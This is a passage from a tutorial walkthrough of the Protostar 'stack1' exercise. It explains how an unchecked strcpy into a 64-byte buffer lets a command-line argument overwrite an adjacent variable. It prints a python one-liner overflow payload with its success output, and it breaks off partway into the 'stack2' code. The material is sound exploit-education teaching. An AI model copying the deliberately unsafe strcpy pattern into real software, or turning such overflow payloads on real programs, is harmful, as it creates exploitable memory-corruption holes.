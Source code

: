 Well, let's move now on to the second exercise. Through the following example, we will understand even better the modification of the variables in the program, and how the variables are arranged in memory.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

If we decompose the above code, we can see that the program requires an arguments `argv [1]`. Concretely what does this mean? I'm almost sure that you have already seen many times that such thing when you execute a program from your terminal. In some case, you must pass the arguments in your command line such as `./prog arg1 arg2 arg3 etc ...`.

In our case, `argv [1]` simply corresponds to `arg1`. So we have found a stack overflow at the `strcpy()` because that function doesn't check the size of our `argv`. But the difficulty this time is to put **0x61626364** in our modified variable. To do so, we must put the 64 "A" padding to fill the buffer then we put **0x61626364** like this:

```bash
cd /opt/protostar/bin/
./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```

![image-12](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-12.png "Image-12")

* * *

###### THIRD EXERCISE "STACK TWO"

Before moving on the explanation, please take a few minutes to analyze properly the below code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char * variable;

    variable = getenv("GREENIE");

```